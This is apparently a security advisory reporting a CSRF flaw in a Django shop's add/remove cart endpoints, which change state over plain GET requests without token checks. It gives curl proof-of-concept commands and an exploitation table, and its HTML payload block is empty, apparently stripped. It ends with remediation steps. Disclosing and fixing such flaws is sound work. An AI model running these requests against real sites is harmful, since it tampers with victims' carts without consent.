




# Description

Cross-Site Request Forgery (CWE-352) on the cart endpoints `/shop/add/<uuid>/` and `/shop/remove/<uuid>/`. Both perform **state changes via HTTP GET** with no `csrfmiddlewaretoken`, no `Referer`/`Origin` validation, and `@csrf_exempt` on the remove view. Because GET is accepted, the attack is zero-click: a hidden `` tag or any embedded resource silently modifies a victim's cart on page load.

# Exploitation

| Scenario | Vector |
|----------|--------|
| Direct link | Send `http://<TARGET>/shop/add/<uuid>/`; one click modifies the cart. |
| Zero-click (same-site) | `/" style="display:none">` from a same-site page (e.g. via the shop XSS). Cross-site `` tags do not send `SameSite=Lax` cookies. |
| XSS chain | The reflected shop XSS can `fetch('/shop/add/<uuid>/')` from the victim's session. |

# PoC

**1. A single GET modifies state (no CSRF token, no POST body):**

```bash
curl -s -b session.txt -o /dev/null -w "HTTP %{http_code}\n" \
  "http://<TARGET>/shop/add/67cb2350-ab89-430b-b50f-cccfa9360bdc/"
# HTTP 302  → item added
```



**2. Verify the item landed in the cart:**

```bash
curl -s -b session.txt "http://<TARGET>/shop/cart/" | grep -A1 "final-total"
# <span class="final-total">6.00 Neuros</span>
```





**3. Zero-click `` payload (same-site only):**

```html
<!-- Works from same-site pages (e.g. injected via stored XSS). -->
<!-- Cross-site  won't carry the SameSite=Lax session cookie. -->

```



No `Referer`/`Origin`/CSRF token is checked — the request returns `302` regardless. Django's default `SameSite=Lax` means cross-site subresource requests (like ``) do **not** send the session cookie, but top-level GET navigations (direct links) and same-site requests do.

# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | None directly. |
| Integrity | Attacker-controlled modification of any victim's cart/wishlist without consent. |
| Availability | Repeated forced additions break the shopping experience; wormable when chained with the shop XSS. |

Overall severity: **Medium** (RFC 7231 §4.2.1 / CWE-650 — unsafe GET).

# Remediation

1. **Make the endpoints POST-only** (`@require_POST`).
2. **Require Django's `csrfmiddlewaretoken`** (remove `@csrf_exempt`).
3. **Validate `Origin`/`Referer`** and set session cookies `SameSite=Strict`.
4. **Audit other state-changing GETs** (wishlist, follow, etc.) for the same anti-pattern.

# Author
Hackrapovic
